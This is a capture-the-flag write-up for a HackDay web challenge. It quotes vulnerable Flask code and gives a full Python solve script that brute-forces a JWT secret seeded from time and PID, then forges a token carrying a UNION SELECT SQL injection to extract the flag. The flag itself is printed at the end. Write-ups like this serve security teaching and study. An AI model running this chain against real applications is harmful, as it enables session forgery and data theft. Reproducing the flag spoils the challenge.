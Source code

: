 # Your region's finest

> You’ve been informed that a website might be serving as a front for a large criminal network. Part of their revenue supposedly comes from selling cookies that can make you float like an airship… A rather tempting proposition. Their slogan, it seems, is: "Always wondered how to get the coolest and the highest quality products in your region ? Search no more, this new website allows you to do so !"
>
> Attachment : [app.py](app.py) , sha256 : 415a046c5c03ac1ff0646cae082503af9d6bf52b7ff6db00ff0009ab7f0b0ba
>
> `challenges.hackday.fr:58990`

The first step is to explore app.py to find a way to get the flag. We see that the flag can be found in the Flag table as a single entry.

```python
class Flag(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    flag = db.Column(db.String(100), nullable=False)
...
def create_data():
    # clear all Product db
    db.session.query(Product).delete()
    
    product1 = Product(name=f'Space Cookie', description='Cookies so delicate, they might just break! No need for brute force, one bite and they’ll melt right into your hands.', price=random.randrange(10, 100))
    product2 = Product(name='Syringe', description='To, hum, inject yourself with medicine I guess ?', price=random.randrange(10, 100))
    product3 = Product(name='Cool looking leaf', description='To add a nice scent to your house :)', price=random.randrange(10, 100))
    with open("flag.txt","r") as f:
        flag = Flag(flag=f.read().strip())
    db.session.add(product1)
    db.session.add(product2)
    db.session.add(product3)
    db.session.add(flag)
    db.session.commit()
```

So to get the flag we need to find a way to get access to that entry. Upon further investigation, we see, that we can see our favorite product in `/favorite_product_info` route. Additionally, we see that query directly takes product id from user's jwt for receiving favorite product. This gives us an opportunity for SQL injection.

```python
@app.route('/favorite_product_info')
@jwt_required()
def favorite_product_info():
    claims = get_jwt()
    favorite_product_id = claims.get('favorite_product')
    if favorite_product_id:
        favorite_product = Product.query.get(favorite_product_id)
        try:
            favorite_product = db.session.execute(text("SELECT * FROM product WHERE id = " + str(favorite_product_id))).fetchone()
        except Exception as e:
            return render_template('favorite_product_info.html', product=None, error=e)
        return render_template('favorite_product_info.html', product=favorite_product)

    return render_template('favorite_product_info.html', product=None)
```

Now we should check JWT logic. At the start of the app.py we see the hint that JWT_SECRET_KEY is not safe. It is actually not safe, because application uses pseudo-random with determined seed for generating secret key.

```python
# I saw in the official _randommodule.c in which both time and pid are used to seed the random generator
# So that must be a good idea, right ? :) Just gonna do it simpler here, but should be as safe.

up = math.floor(time.time())
random.seed(up + os.getpid())

app = Flask(__name__)
app.config['SECRET_KEY'] = "".join(random.choice(string.printable) for _ in range(32))
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:////app/data/site.db'
app.config['JWT_SECRET_KEY'] = "".join(random.choice(string.printable) for _ in range(32))
app.config['JWT_TOKEN_LOCATION'] = ['cookies']
app.config['JWT_COOKIE_CSRF_PROTECT'] = False 
```

It means that we could bruteforce secret key for JWT. Moreover, we already could calculate the time when server was started due to `/healthz` route.

```python
@app.route("/healthz")
def healthz():
    return jsonify(status="OK", uptime=time.time() - up)
```

So now we know the order of our actions:
1. Register new user.
2. Get user's JWT from cookies.
3. Calculate server's start time.
4. Bruteforce PID and and find secret key for JWT.
5. Forge new JWT with SQL injection for "favorite_product" key.
6. Open `/favorite_product_info` and get the flag.

Here you can see the full [script](solution.py) to solve this task.

```python
import jwt, string, random, requests, logging, math, re, time
from datetime import datetime, timedelta

logging.basicConfig(level=logging.INFO, format="%(asctime)s - %(levelname)s - %(message)s")

BASE_URL = "http://challenges.hackday.fr:58990"
REGISTER_URL = f"{BASE_URL}/register"
LOGIN_URL = f"{BASE_URL}/login"
HEALTHZ_URL = f"{BASE_URL}/healthz"
FAVORITE_PRODUCT_INFO_URL = f"{BASE_URL}/favorite_product_info"

USERNAME = random.choice(string.ascii_letters).lower() + "".join(random.choice(string.ascii_letters + string.digits) for _ in range(7))
PASSWORD = USERNAME


def register_user():
    """Register a new user."""
    logging.info("Registering a new user.")
    response = requests.post(REGISTER_URL, data={"username": USERNAME, "password": PASSWORD})
    if response.status_code == 200:
        logging.info("User registered successfully.")
    else:
        logging.error("Failed to register user.")


def login_user():
    """Login the user and get the JWT from cookies."""
    logging.info("Logging in the user.")
    session = requests.Session()
    response = session.post(LOGIN_URL, data={"username": USERNAME, "password": PASSWORD})
    if response.status_code == 200:
        logging.info("User logged in successfully.")
        jwt_token = session.cookies.get("access_token_cookie")
        return jwt_token
    logging.error("Failed to log in user.")
    return None


def get_server_start_time():
    """Calculate the server's start time using the /healthz endpoint."""
    logging.info("Calculating server start time.")
    response = requests.get(HEALTHZ_URL)
    if response.status_code == 200:
        uptime = response.json().get("uptime")
        start_time = time.time() - uptime
        logging.info(f"Server start time calculated: {start_time}")
        return start_time
    logging.error("Failed to get server start time.")
    return None


def bruteforce_jwt_secret(start_time):
    """Bruteforce the JWT_SECRET_KEY based on the start time and PID."""
    logging.info("Starting bruteforce for JWT secret.")
    TIME_WINDOW_SECONDS = 5
    rounded_start_time = math.floor(start_time)
    possible_times = range(rounded_start_time - TIME_WINDOW_SECONDS, rounded_start_time + TIME_WINDOW_SECONDS + 1)
    for possible_up in possible_times:
        for pid in range(1, 65536):
            random.seed(possible_up + pid)
            _ = "".join(random.choice(string.printable) for _ in range(32))
            candidate_secret = "".join(random.choice(string.printable) for _ in range(32))
            try:
                jwt.decode(jwt_token, candidate_secret, algorithms=["HS256"])
                logging.info(f"JWT secret found: {candidate_secret}")
                return candidate_secret
            except jwt.InvalidTokenError:
                continue
    logging.error("Failed to bruteforce JWT secret.")
    return None


def forge_jwt(jwt_secret):
    """Forge a new JWT with an SQL injection payload."""
    logging.info("Forging a new JWT with SQL injection payload.")
    payload = {
        "sub": USERNAME,
        "favorite_product": "1 UNION SELECT 1, flag, flag, 0.0, 'static/images/default.png', 1 FROM flag LIMIT 1 --"
    }
    forged_token = jwt.encode(payload, jwt_secret, algorithm="HS256")
    logging.info("JWT forged successfully.")
    return forged_token


def get_flag(forged_token):
    """Send the forged JWT to get the flag."""
    logging.info("Sending forged JWT to retrieve the flag.")
    cookies = {"access_token_cookie": forged_token}
    response = requests.get(FAVORITE_PRODUCT_INFO_URL, cookies=cookies)
    if response.status_code == 200:
        logging.info("Successfully retrieved the response.")
        flag = re.search(r'HACKDAY\{.*?\}', response.text)
        if flag:
            logging.info(f"Succesfully retrieved the flag")
            return flag.group()
        logging.error("Flag not found in the response.")
        return response.text
    logging.error("Failed to retrieve the response.")
    return None


if __name__ == "__main__":
    register_user()
    jwt_token = login_user()

    if not jwt_token:
        logging.error("Exiting due to login failure.")
        exit(1)

    start_time = get_server_start_time()
    if not start_time:
        logging.error("Exiting due to failure in calculating server start time.")
        exit(1)

    jwt_secret = bruteforce_jwt_secret(start_time)
    if not jwt_secret:
        logging.error("Exiting due to failure in bruteforcing JWT secret.")
        exit(1)

    forged_token = forge_jwt(jwt_secret)
    flag = get_flag(forged_token)

    if flag:
        logging.info(f"Flag retrieved: {flag}")
    else:
        logging.error("Failed to retrieve the flag.")
```
Running this script will provde us the flag.

![Script Result](img1.png)

`HACKDAY{Th4t_s_S0m3_g000000000000d_qu4lity!}`
